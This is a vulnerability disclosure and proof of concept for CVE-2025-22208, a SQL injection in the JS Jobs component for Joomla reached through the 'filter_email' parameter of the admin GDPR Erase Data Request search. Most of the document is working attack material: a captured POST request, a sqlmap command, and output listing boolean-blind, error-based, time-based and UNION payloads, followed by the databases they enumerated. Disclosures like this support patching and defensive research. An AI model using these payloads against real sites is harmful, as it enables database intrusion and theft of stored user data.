

# CVE-2025-22208: SQL injection in JS jobs component version 1.1.5 - 1.4.3 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22208

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'filter_email' parameter in the GDPR Erase Data Request search feature.

## POC
To exploit this vulnerability, go to 'Dashboard >> GDPR >> Erase Data Request >> Search' and capture the search Useremail request. Save that request to a file (req.txt) and run SQLMap through the file to exploit the vulnerable parameter (filter_email).



**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 77
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jsjobs&c=gdpr&view=gdpr&layout=erasedatarequests
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; 540e9ab0c71c4445060a757b38444b04=64de8ff28342024d979552d8ff96e3cb; 58f028dd2afd9618c7033dd698dbf770=734e1e9a18b54f3f0a547799648d236e; f1b049cf45956510881f9283cc70983f=df845e612a28854cd04a392e5aac5505; 954f55fc9005096c1cbc635a7c8608fc=294bd118db443aa54b1be9313c54e685
Connection: keep-alive

filter_email=test&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
```

**Exploit:**
```
ubuntu@host:~/sqlmap$ python3 sqlmap.py -r ~/req.txt --batch --dbs
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: filter_email (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: filter_email=test' AND EXTRACTVALUE(5420,CASE WHEN (5420=5420) THEN 5420 ELSE 0x3A END)-- dphL&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter_email=test' AND GTID_SUBSET(CONCAT(0x7178717071,(SELECT (ELT(4721=4721,1))),0x716b6b7671),4721)-- AoFU&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter_email=test' AND (SELECT 7546 FROM (SELECT(SLEEP(5)))IRqy)-- tkAY&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: filter_email=test' UNION ALL SELECT NULL,CONCAT(0x7178717071,0x7071627259697252544c554b76616c4e794d4a6e4156424f6d7977616b507468704a556f646f4250,0x716b6b7671),NULL,NULL,NULL,NULL,NULL,NULL#&option=com_jsjobs&c=gdpr&layout=erasedatarequests&view=gdpr
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
